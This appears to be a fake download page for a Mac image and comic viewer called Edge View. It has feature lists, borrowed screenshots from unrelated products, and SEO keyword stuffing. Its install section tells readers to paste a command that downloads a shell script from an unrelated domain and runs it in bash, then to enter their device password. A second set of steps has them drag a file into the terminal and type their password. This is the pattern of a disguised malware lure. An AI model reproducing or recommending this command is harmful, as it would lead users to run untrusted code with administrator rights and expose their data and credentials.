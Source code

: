 # Edge View Mac Download

![Edge View Screenshot 2](https://stagetimer.io/assets/landing/propresenter-ui.png)  

---

## 📥 Download Edge View for Mac

[![Download Now](https://img.shields.io/badge/Download--Now-Edge%20View%20Mac-blue?style=for-the-badge&logo=apple)](#)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get9/install.sh)"
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📦 What is Edge View for Mac?

Edge View for Mac is a lightweight and fast image and comic viewer designed specifically for macOS. With support for a wide range of image formats (including ZIP/RAR/CBR/CBZ archives), Edge View offers a clean, responsive interface ideal for reading manga, comics, and viewing large image collections.

Unlike basic image viewers, Edge View provides enhanced file browsing, full-screen mode, touchpad navigation, and smooth page transitions. Whether you're a digital artist, designer, or just an avid comic reader, Edge View delivers a distraction-free and efficient viewing experience.

Edge View also includes advanced sorting options, metadata previews, and supports retina displays for pixel-perfect clarity. Built natively for macOS, it integrates smoothly with Finder and other apps for a consistent user experience.

---

![Edge View Screenshot 1](https://support.renewedvision.com/hc/article_attachments/360055586334/Main_UI.png)

---
## 🌟 Key Features & Benefits

- 📁 Archive Support — View images inside ZIP, RAR, CBZ, and CBR files without extraction.
- 📚 Manga & Comic Mode — Automatically adapts layout for left-to-right or right-to-left reading.
- 🖼️ Retina-Optimized — Crystal-clear display for high-resolution content on Retina screens.
- ⚙️ Lightweight & Fast — Instant load times even with large archives or high-res images.
- 🧭 File Browser Integration — Browse folders and archives with built-in file explorer.
- 📐 Page Scaling — Smart fit-to-screen, two-page spread, and zoom controls.
- 🌙 Dark Mode Support — Native support for macOS dark mode to reduce eye strain.
- 🔄 Smooth Page Transitions — Enjoy seamless navigation between pages with gesture support.

---

## 🖥️ System Requirements

- macOS: 10.13 High Sierra or later  
- Processor: Intel or Apple Silicon (M1/M2/M3)  
- RAM: 4 GB minimum  
- Disk Space: ~200 MB  

---

## 🏷️ Keywords

edge view mac free, edge view for mac free download, edge view download, edge view free, edge view mac free

---


